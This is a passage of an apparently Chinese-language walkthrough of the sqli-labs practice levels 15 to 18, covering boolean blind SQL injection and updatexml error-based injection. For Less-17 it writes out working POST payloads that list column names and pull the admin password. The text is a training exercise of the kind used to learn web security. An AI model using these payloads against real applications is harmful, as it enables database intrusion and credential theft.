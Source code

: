 **十五关是很明显的布尔盲注，因为有错误页面和正确页面用来参考：**

![83](https://img-blog.csdnimg.cn/d0f7292fb0464ca9b5d773185677a221.png#pic_center)
![84](https://img-blog.csdnimg.cn/1cb69a75b8f04478ac47fb1bb0662583.png#pic_center)
至此，第十五关通关！

## Less-16
第十六关和第十二关是一样的，进行布尔盲注。

![85](https://img-blog.csdnimg.cn/cd9bf0d419ab4fad804ce8a39bb0aada.png#pic_center)
至此，第十六关通关！

## Less-17
第十七关和前面的关有很大不一样，根据页面展示是一个密码重置页面，也就是说我们已经登录系统了。

**查看源码：**

![86](https://img-blog.csdnimg.cn/0bd8c02c58224d6b93e0a64beddd948c.png#pic_center)
sql语句之前都是查询，这里有一个`update`更新数据库里面信息。
所以之前的联合注入和布尔盲注以及时间盲注都不能用了。
这里我们会用到报错注入：

**updatexml报错注入：**
`UPDATEXML (XML_document, XPath_string, new_value)`
**第一个参数：** XML_document是String格式，为XML文档对象的名称
**第二个参数：** XPath_string (Xpath格式的字符串) 
**第三个参数：** new_value，String格式，替换查找到的符合条件的数据
`作用：`改变文档中符合条件的节点的值，改变XML_document中符合XPATH_string的值
当我们XPath_string语法报错时候就会报错。

**爆库：**
![87](https://img-blog.csdnimg.cn/18429916f7c04149b291a8480c13e3fe.png#pic_center)
**爆表名：**
![88](https://img-blog.csdnimg.cn/01b541a8ed434de2bbecc897df10ac6f.png#pic_center)
**爆列名：**

```sql
uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and column_name not in ('user_id','user','first_name','last_name','avatar','last_login','failed_login')),0x7e),1) --+ &submit=Submit
```

**爆值：**

```sql
uname=admin&passwd=11'  and  updatexml(1,concat(0x7e,(select password from (select password from users where username='admin') mingzi ),0x7e),1) --+&submit=Submit
```

至此，第十七关通关！

## Less-18
我们抓包后从`User-Agent`处进行注入，这里要注意语句的闭合：
